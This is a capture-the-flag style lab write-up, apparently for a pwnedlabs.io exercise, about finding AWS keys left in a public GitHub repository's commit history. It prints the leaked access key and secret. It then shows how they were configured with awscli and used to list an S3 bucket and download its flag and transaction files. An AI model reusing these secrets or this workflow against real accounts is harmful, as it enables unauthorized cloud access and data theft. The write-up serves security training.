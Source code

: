 ```yaml
---
description: >-
  Understanding the risks of public exposed organization's github repos 
---
```


# Initial Entry Point
  

| Repo Name |
| --- |
| [https://github.com/huge-logistics/cargo-logistics-dev](https://github.com/huge-logistics/cargo-logistics-dev) |

  

## Scenario

  

While conducting OSINT on a lesser-known dark web forum as part of assessing your client's threat landscape, you stumble upon a thread discussing high-value targets. Among the chaos of links and boasts, a user casually mentions discovering an intriguing GitHub repository belonging to your client, the international titan, Huge Logistics. A couple of underground researchers hint at having found something but remain cryptic. Your instincts tell you there's more to uncover. Your objective? Dive deep into this repository, trace any associated infrastructure, and uncover any vulnerabilities before they become tomorrow's headline. The clock is ticking. Will you outsmart the adversaries?

  

## To be more clear

We have to assess the organization github repository for any possibility of credentials leakage where we gonna try it out in both the manual and automated way 

  

## Let’s start out with the manual approach 

  

First and foremost, we will clone the github repository using the command `git clone https://github.com/huge-logistics/cargo-logistics-dev`and let’s start out our analysis process

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % git clone https://github.com/huge-logistics/cargo-logistics-dev
Cloning into 'cargo-logistics-dev'...
remote: Enumerating objects: 1578, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 1578 (delta 2), reused 2 (delta 1), pack-reused 1571
Receiving objects: 100% (1578/1578), 50.12 MiB | 4.96 MiB/s, done.
Resolving deltas: 100% (448/448), done.
```

  

After cloning and going into that repo, we can run `git log`  in order to check for any sensitive actions being performed like where they had deleted or removed any files and found there is action been performed which is `Delete log-s3-test directory` and with commit hash as `ea1a7618508b8b0d4c7362b4044f1c8419a07d99`

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % git log
commit 327256a97593085dcee75e70df5f80c51a30c267 (HEAD -> main, origin/main, origin/HEAD)
Author: Ian Austin <iandaustin@outlook.com>
Date:   Wed Jul 5 17:56:49 2023 +0100

    Update

commit ea1a7618508b8b0d4c7362b4044f1c8419a07d99
Author: egre55 <34132245+egre55@users.noreply.github.com>
Date:   Wed Jul 5 17:46:16 2023 +0100

 Delete log-s3-test directory
```

  

Suspecting the particular action, we can able to view the log using the command `git show`  along with the commit hash which shows that there is big change been made and where the `AWS Access key`  and `Secret key`  being disclosed in the following filename `a/log-s3-test/log-upload.php`

  

![](../Files/gitleaks-1.png) 

  

Well, let’s configure the following credentials through `awscli`  and with custom profile called `gitleaks`  

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws configure --profile gitleaks
AWS Access Key ID [None]: AKIAWHEOTHRFSGQITLIY
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```

  

After configuring the credentials, we found that is credentials belongs to `dev-test`  through `aws sts`  module 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws sts get-caller-identity --profile gitleaks
{
    "UserId": "AIDAWHEOTHRF24EMR3SXJ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/dev-test"
}
```

  

What can we do with that credentials ? we know that it belongs to user called `dev-test`  but onething to note is we didn’t observe that this user have access to s3 bucket named `huge-logistics-transact` where you can check it into the git logs again and this are the lines of the code for your reference if you feel lazy to scroll up 

  

```diff
-// Send a PutObject request and get the result object.
-$key = 'transact.log';
-
-$result = $s3->putObject([
-       'Bucket' => 'huge-logistics-transact',
-       'Key'    => $key,
-       'SourceFile' => 'transact.log'
-]);
-
-// Print the body of the result by indexing into the result object.
-var_dump($result);
```

  

Enumerating s3 bucket using `aws s3`  module in `aws cli`  with the following command `aws s3 ls s3://huge-logistics-transact` and well we forgot we need to include `--profile gitleaks`  where we initially created a custom profile with the leaked credentials we have.. we found our `flag.txt`  here and through the `aws s3 cp`  we can copy it to our local machine 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 ls s3://huge-logistics-transact --profile gitleaks
2023-07-05 21:23:50         32 flag.txt
2023-07-04 22:45:47          5 transact.log
2023-07-05 21:27:36      51968 web_transactions.csv
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 cp s3://huge-logistics-transact/flag.txt ./ --profile gitleaks
download: s3://huge-logistics-transact/flag.txt to ./flag.txt    
nits@FWS-CHE-LT-8869 cargo-logistics-dev % cat flag.txt
fe108d6a1a0937b0a7620947a678aabf%     
```

  

Well, It doesn’t end here we can also look into file named `web_transcations.csv`  and found that it is disclosing some kind of sensitive informations like `ip address, name and id of the user`  which is obviously not meant to be 

  

![](../Files/gitleaks-2.png) 
  

  

## Automated way of finding the leaks 

  

We can use a tool called `trufflehog`  well In my case, I’m using MacOS where you can install using the command `brew install trufflehog`  or you can also use `gitleaks`

  

![](../Files/gitleaks-3.png) 


  

Now run the following trufflehog git `https://github.com/huge-logistics/cargo-logistics-dev` and In the matter of seconds, we found our verified results with the valid username that those credentials belongs to well in our case, It is `dev-test` 

  

![](../Files/gitleaks-4.png) 
 

  

Well the learning outcome is , That’s how we can analyse the organization github repo which are exposed externally for secret keys and In conclusion, we have to reduct our keys if you are deleting the file and rotate the leaked credentials